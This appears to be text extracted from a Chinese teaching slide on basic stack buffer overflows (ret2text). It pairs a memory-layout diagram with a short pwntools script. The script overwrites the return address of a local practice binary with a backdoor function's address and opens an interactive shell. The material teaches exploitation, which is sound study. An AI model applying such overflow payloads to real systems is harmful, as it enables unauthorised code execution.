

栈溢出基础 | ret2text
For Kernel

shared libraries

Heap
Data

Unused
ret_addr = backdoor_addr
Stack
from pwn import *

io = process("./ret2text")
io.recv()
payload = b'A'*16 + b'B'*4 + p32(0x8048522)
io.sendline(payload)
io.interactive()
Bss
Text
backdoor in ELF